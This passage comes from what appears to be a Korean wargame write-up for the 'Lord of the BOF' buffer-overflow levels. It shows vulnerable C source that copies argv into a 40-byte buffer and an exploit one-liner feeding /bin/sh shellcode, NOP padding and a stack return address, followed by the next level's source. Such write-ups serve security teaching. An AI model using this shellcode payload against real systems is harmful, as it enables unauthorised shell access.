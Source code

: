 ```
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```

음 이번에는 argv의 길이값 검증까지 추가 되었다...
이 문제를 풀기위해서는 48byte로만 exploit payload를 구성해야 되는데 이미 그렇게 구성하고 있기 때문에 .... 별 무리 없이 패스 할 수 있었다....

### 2. gdb
첨부하지 않음
### 3. exploit code
```
./darkelf `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"\x90"*19+"\xec\xfd\xff\xbf"'`
bash$ my-pass
euid = 506
kernel crashed
```

## darkelf

### 1. source code
```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orge
        - check argv[0]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// here is changed!
	if(strlen(argv[0]) != 77){
                printf("argv[0] error\n");
                exit(0);
	}

	// egghunter
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
```